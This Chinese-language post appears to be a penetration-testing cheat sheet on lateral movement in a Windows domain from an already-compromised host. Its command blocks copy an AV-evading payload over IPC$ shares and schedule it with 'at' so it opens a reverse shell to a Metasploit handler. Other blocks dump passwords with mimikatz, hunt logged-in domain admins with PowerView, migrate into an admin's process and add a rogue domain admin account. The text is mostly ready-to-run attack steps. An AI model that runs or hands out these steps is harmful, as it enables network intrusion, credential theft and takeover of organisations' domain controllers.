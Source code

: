 ----------------------------------

## 一些小思路

#### 信息搜集
当拿下第一天内网主机的权限(提权不了时)，就要以此服务器为跳板攻击其他服务器

先进行网络/用户组/DC等的收集


###### 获取另外一台服务器权限
**若权限不够导致不能直接攻击域服务器**
- 使用meterpreter当前拥有的权限添加到内网路由，进行弱口令扫描
- 用Powershell对内网进行扫描
- 架设Socks4a, 然后socks会自动进行内网扫描
- 利用当前权限进行内网IPC$渗透
- 其他

通过分析，我们输入`net view`, 发现列举的机器选择一个和我们机器名相似的服务器试，成功率一般很高`net use \\WIN7_TEST2\c$`


使用经典的`IPC$入侵`（通过win默认启动的ipc共享来获得计算机控制权）：
```bash
net use \192.168.0.112\ipc$   # 连接这个ip的ipc共享
copy srv.exe \192.168.0.112\ipc$  # 复制srv(免杀的payload)到目标
net time \192.168.0.112  # 查看时间
at \192.168.0.112 18:18 srv.exe    # 用at命令在18点18分启动srv.exe (这里设置的时间要比主机时间快)
# 如果没有 at命令，试试新的计划任务命令： schtask 
# 回到msf的handler进行监听，到时间会反弹shell
然后进入这个新的主机，查看包括权限在内的信息, 也可以mimikatz抓密码: run /post/windows/gather/mimikatz
也可以上传对应位数的mimikatz到该主机 upload /home/x64.exe c:\
shell    # 进入到目标的shell，再执行

```

#### Powershell寻找域管在线服务器
使用`PowerView`脚本的`Invoke-User Hunter`上传到目标机器，然后执行`Invoke-UserHunter`
```bash
powershell.exe -exec bypass -Command "&{Import-Module .powerview.ps1;Invoke-UserHunter}"
```
找到域管理员当前在线登录的主机后，入侵该主机，然后把它迁移到域管理员登录所在的进程，这样就有了域管的理的权限



#### 获取域管权限
渗透域控
```bash
# 先尝试
getsystem
getuid  #查看当前用户，因为之前知道这账户的域管理员
ps    # 找到域管理所在进程
migrate 30560 # 迁移进程过去(也可以用msf中窃取令牌的功能)
# 查看主域控的IP
shell    # 先进去cmd
net time
# 使用IPC$入侵来返回一个域控的meterpreter shell(操作见上面的步骤)
net user test test123 /ad /domain # 添加域管理员
net group "domain admins" /domain  #查看域管理员是否添加成功
```
